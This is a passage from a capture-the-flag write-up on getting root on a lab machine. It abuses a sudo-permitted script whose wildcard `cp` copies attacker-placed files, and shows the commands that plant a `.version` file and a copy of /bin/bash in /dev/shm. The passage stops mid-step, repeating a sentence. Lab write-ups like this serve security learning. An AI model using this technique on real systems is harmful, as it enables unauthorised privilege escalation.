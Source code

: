 
## Privesc to root

Once we are logged in as user bindmgr, let us run `sudo -l`.

```
$ sudo -l
sudo: unable to resolve host dynstr.dyna.htb: Name or service not known
Matching Defaults entries for bindmgr on dynstr:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User bindmgr may run the following commands on dynstr:
    (ALL) NOPASSWD: /usr/local/bin/bindmgr.sh

```

It appears that we can run `/usr/local/bin/bindmgr.sh` without a password as any user. Let's check the contents of the file.

```
..snip..

# Stage new version of configuration files.
echo "[+] Staging files to $BINDMGR_DIR."
cp .version * /etc/bind/named.bindmgr/

..snip..
```

On examining the file, we can see that there is a `cp` command that copies all files within a directory where `.version`  exists to `/etc/bind/named.bindmgr/`.

The only .version file on the system exists at `/etc/.version` and can be found using the following command.

`find / -name ".version" 2>/dev/null`

Looking at the contents of the `.version` we can see that it is merely a number.

```
$ cat /etc/.version
42
```

This number does not hold any significance and can be any number.

We can exploit this script to get privilege escalation by bringing in a binary that we can run in a privileged mode. In this case, we will be using `/bin/bash`.

For the sake of this exploit, I enter the `/dev/shm` directory.

First, let's create a `.version` file with an arbitrary value

`$ echo "2" > .version`

copy `/bin/bash` to this directory

First, let us create a `.version` file. 
